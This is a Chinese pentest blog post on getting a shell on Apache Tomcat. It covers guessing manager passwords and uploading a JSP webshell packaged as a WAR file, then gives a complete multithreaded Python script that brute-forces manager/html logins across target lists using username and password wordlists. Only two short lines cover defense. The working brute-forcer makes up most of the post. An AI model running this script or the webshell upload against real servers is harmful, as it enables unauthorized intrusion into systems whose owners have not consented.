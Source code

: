 +++
date = "2016-08-02T22:30:13+08:00"
description = ""
draft = false
tags = ["getshell"]
title = "Tomcat部署War包getshell"
topics = ["Pentest"]

+++

### 0x00 关于War包
```
War包一般是进行Web开发时一个网站Project下的所有代码,包括前台HTML/CSS/JS代码,
以及Java的代码。当开发人员开发完毕时,就会将源码打包给测试人员测试,测试完后若要发布
则也会打包成War包进行发布。War包可以放在Tomcat下的webapps或word目录,当Tomcat
服务器启动时,War包也会随之被解压后自动部署。
```

### 0x01 上传War包GetShell
* 找到后台猜密码然后登录
![Tomcat后台](/img/post/tomcat_vul_background.png)
![Tomcat后台登录](/img/post/tomcat_vul_login.png)
![Tomcat后台登录成功](/img/post/tomcat_vul_war_login_success.png)

* 上传War包  
先将jsp大马压缩为zip，再将zip后缀改名为war，然后上传war包
![Tomcat上传War包](/img/post/tomcot_vul_put_war.png)
![Tomcat上传War包成功](/img/post/tomcot_vul_put_war_success.png)
![Tomcat部署War包后访问shell1](/img/post/tomcot_vul_visit_shell1.png)
![Tomcat部署War包后访问shell2](/img/post/tomcot_vul_visit_shell2.png)

### 0x02漏洞防御
* 后台使用强密码
* 删除Tomcat下的manager文件夹

### 0x03 附爆破弱口令代码
```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import json
import base64
import sys
import Queue
import threading

"""
简单爆破后台登陆密码
Usage: python tomcat.py username.txt password.txt urlfile.txt
username.txt为用户名字典
password.txt为密码字典
urlfile.txt为后台url列表
"""

def get_username(userfile):
    username = []
    with open(userfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            username.append(line.strip())
    return username

def get_pwd(passfile):
    password = []
    with open(passfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            password.append(line.strip())
    return password

def get_url(urlfile):
    urllist = Queue.Queue()
    with open(urlfile,'r') as f:
        lines = f.readlines()
        for line in lines:
            urllist.put(line.strip())
    return urllist

def thread(f,urls,names,pwds):
    while not urls.empty():
        s = requests.Session()
        url = urls.get()
        resp = s.get(url,timeout=10)  #用于记录cookie
        Referer = resp.url

        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
            'Referer': Referer,
        }
        bgurl = url + 'manager/html'
        # print bgurl
        for name in names:
            for pwd in pwds:
                authorize = name + ':' + pwd
                Basic = "Basic " + base64.b64encode(authorize)
                headers['Authorization'] = Basic
                # print json.dumps(headers, indent=4)

                proxy = {
                    'http':'http://127.0.0.1:1080'
                }

                resp = s.get(bgurl,headers=headers,proxies=proxy,timeout=10)
                if resp.status_code == 200:
                    s = "[Ok] %s\t%s:%s" % (bgurl,name,pwd)
                    print s
                    f.write(s)
                    exit()
                else:
                    print '[Error] ' + bgurl + '\t' + name + ':' + pwd
            # break

def main():
    if len(sys.argv) < 4:
        print "Usage: python tomcat.py username.txt password.txt urlfile.txt"
        exit()
    userfile = sys.argv[1]
    passfile = sys.argv[2]
    urlfile = sys.argv[3]
    names = get_pwd(userfile)
    pwds = get_pwd(passfile)
    urls = get_url(urlfile)

    tlist = []
    f = open("result.txt","a+")
    for x in xrange(1,50):
        t = threading.Thread(target=thread,args=(f,urls,names,pwds,))
        tlist.append(t)
    for t in tlist:
        t.start()
    t.join()

main()
```